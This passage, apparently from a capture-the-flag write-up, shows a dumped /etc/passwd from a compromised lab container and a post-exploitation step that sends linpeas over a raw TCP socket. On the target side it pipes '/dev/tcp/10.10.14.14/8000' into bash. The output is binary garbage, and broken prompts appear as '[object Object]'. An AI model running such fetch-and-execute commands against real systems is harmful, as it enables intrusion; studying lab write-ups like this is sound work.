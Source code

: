 ```bash
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
node:x:1000:1000::/home/node:/bin/bash
```

I successfully spawned a reverse shell with valid RCE function!


# Normal Shell as docker's `root`

### Enumeration

However, I think the machine is somewhat weird.
It doesn't have flag, and it doesn't seem like a normal shell.
Let's run `linpeas` for enumeration.

To transfer `linpeas` file, I tried to open a webserver and use `curl` or `wget` command to download on remote machine, but there was no useful binaries..
Instead, I used TCP socket to transfer file.

Also, I found out that the current shell is not a normal `/bin/sh` but `dash` shell.
Instead, `/bin/bash` is normal, so let's use `bash` with `-c` option.

```bash
[object Object]ls -al /bin/sh
lrwxrwxrwx 1 root root 4 Nov  8  2014 /bin/sh -> dash

[object Object]ls -al /bin/bash
-rwxr-xr-x 1 root root 1029624 Nov  5  2016 /bin/bash
```

Let's open a listener with redirection of the binary.

```bash
┌──(kali㉿kali)-[/usr/share/peass/linpeas]
└─$ nc -nlvp 8000 < linpeas_linux_amd64
listening on [any] 8000 ...
```

Then, let's use the binary and run `linpeas` script.

```bash
[object Object]/bin/bash -c "cat < /dev/tcp/10.10.14.14/8000 | bash"
bash: line 1: syntax error near unexpected token `)'
bash: line 1: `ELF>ñE@È@8@@@@@@@@dd@@Å° Å° À ÀIÀIPe`ãQåte@Å   jÀIÀ £ p czr e^ eô | k^ kÐ ðk^ðkl^l¤ Be%  e %À! à1fà1&p| `®f`®&HñÀiÀ)ÀS ¹j°&j±&_Õxlx³(·d,/hl/▒)Cïrhlr▒)ýxoáoo,øaÚq.ÀªP@d4/p▒£80ÊSGosSXQpNJu1EEvYafjbCjM/H0E74WvDXha_CEvthmGG/djLYA4QBJ-hdRVVB1xcv/JFpEA5ewsbfNzMc_3UkWI;fv8Hì▒Hl$Hl$HD$ H\$(fè{HD$ H\$(è,Hl$HÄ▒ÃHDH\$èóªHDH\$ë§ÌÌÌÌÌÌÌLd$ØM;føHì¨H¬$ H¬$ H$°ëHðLÃHÛ1ÉéHÇÁÿÿÿÿHÉ}E1À1öHÙë1@H9ÙHqH9ó}H)ËH{ÿIøH÷ßHÁÿ?H!þHÆHù|8cpu.u1ÒéIHÇÂÿÿÿÿHt$pLD$PHÒKH9ÊHúHzüIùH÷ßHÁÿ?HçH8LRL9Ñ×LL$HH\$`H)ÑLYÿL\$▒MÜI÷ÛIÁû?M!ÚNL\$XHùuF·fAúontH~fHùu`F·,fAýofuSF¶TAúfuGHúu)D·8fAúalu¶|8@ÿluH=m¡&1ÀéÀHL$@HW¡&HT$81Àérèû
  »è'
```
